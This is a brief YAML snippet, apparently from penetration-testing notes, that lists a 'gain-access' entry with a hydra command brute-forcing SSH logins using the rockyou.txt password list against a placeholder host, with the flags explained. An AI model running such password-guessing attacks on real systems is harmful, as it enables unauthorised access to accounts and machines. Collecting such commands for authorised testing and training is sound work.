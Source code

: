 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -l luginfo -P rockyou.txt ssh://<ip>:<port> -t 6
        
        -l --> login_name
        -P --> password_list
        -t --> threads
---
```

